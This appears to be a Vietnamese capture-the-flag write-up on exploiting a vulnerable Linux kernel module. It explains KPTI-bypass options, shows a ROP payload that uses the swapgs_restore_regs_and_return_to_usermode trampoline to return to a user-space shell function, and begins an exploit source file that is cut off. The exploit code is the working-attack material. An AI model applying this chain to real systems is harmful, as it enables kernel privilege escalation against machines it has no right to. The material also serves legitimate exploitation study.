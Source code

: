 ![image](https://hackmd.io/_uploads/Sk_YBpGGgx.png)

- về các cách bypass thì theo mình biết là sẽ có 3 cách : 
    - 1 : [ mprobe_path](https://sam4k.com/like-techniques-modprobe_path/)
    - 2 : [signal handler](https://lkmidas.github.io/posts/20210128-linux-kernel-pwn-part-2/#adding-kpti)
    - 3 : [KPTI trampoline](https://blog.wohin.me/posts/linux-kernel-pwn-01/#case-31-bypass-kpti-with-trampoline)

- ở đây mình chọn cách 3 để làm , đơn giản là ta sẽ setup payload để `rop` vào `swapgs_restore_regs_and_return_to_usermode+22` , về chi tiết thì ta có thể đọc blog để hiểu hơn 

- đây là khi bắt đầu hàm này , nó sẽ push các giá trị lên stack 

![here](https://pawnyable.cafe/linux-kernel/LK01/img/kpti_trampoline.png)

- đoạn cuối nó sẽ `or rdi,0x1000` và mov nó vào `cr3` -> sau đó thực hiện pop 2 lần và `swapgs` , mục tiêu của ta là sau khi thay đổi được `cr3` ta sẽ return vào hàm `get_shell` của mình nên ta sẽ đặt payload theo thứ tự như sau: 

```c
*pl++ = bypass_kpti;
*pl++ = 0xdeadbeef;
*pl++ = 0xdeadbeef;
*pl++ = (unsigned long)&win; // [rdi+0x10]
*pl++ = user_cs; // [rdi+0x18]
*pl++ = user_rflags; // [rdi+0x20]
*pl++ = user_rsp;  // [rdi+0x28]
*pl++ = user_ss;  // [rdi+0x30]
```

![here](https://pawnyable.cafe/linux-kernel/LK01/img/switch_to_usermode.png)

- ta có thể lấy các địa chỉ bằng lệnh `magic` ở `bata-gef` hoặc cat "/proc/kallsym | grep ..."
![image](https://hackmd.io/_uploads/S1NwaTMGge.png)

- tiếp theo là dùng `ROPgadget` để lấy gadget từ kernel

exp: 

```c
#define _GNU_SOURCE
#include <dirent.h>
#include <errno.h>
#include <fcntl.h>
#include <poll.h>
#include <pthread.h>
#include <sched.h>
#include <signal.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

typedef uint64_t u64;
typedef int64_t i64;
typedef uint8_t u8;
typedef int8_t i8;

i64 global_fd;
u64 user_cs, user_ss, user_rflags, user_sp;
i64 canary;
i8 size = 40;
#define DEV_VULN "/proc/shellcode_device"

#define swapgs_restore_regs_and_return_to_usermode (0xffffffff81c00a2f + 22)
```